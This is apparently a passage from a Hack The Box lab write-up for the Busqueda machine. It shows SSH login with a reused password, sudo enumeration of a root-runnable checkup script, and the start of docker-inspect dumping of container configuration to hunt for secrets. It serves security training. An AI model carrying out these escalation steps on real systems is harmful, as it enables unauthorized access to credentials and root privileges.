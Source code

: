 Using the password of cody to user `svc` through ssh.
```shell
ssh svc@searcher.htb

> A stable shell is achieved.
```

Checking what user `svc` can do.
```shell
svc@busqueda:~$ sudo -l

[...]
User svc may run the following commands on busqueda:
>     (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Svc can use `sudo` through:
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
[sudo] password for svc: 
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Executing every action of that script.
Executing `docker-ps` of the script.
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   6 months ago   Up 39 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   6 months ago   Up 39 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
> This shows that there are docker containers running named `gitea` and `mysql_db`.

Executing `docker-inspect` of the script.
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
> This shows I can inspect the docker containers `gitea` and `mysql_db`.
> 
> Checking the docker inspect in Docker [documentation](https://docs.docker.com/engine/reference/commandline/inspect/)

Using `docker-inspect` to `gitea` container.
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea
```
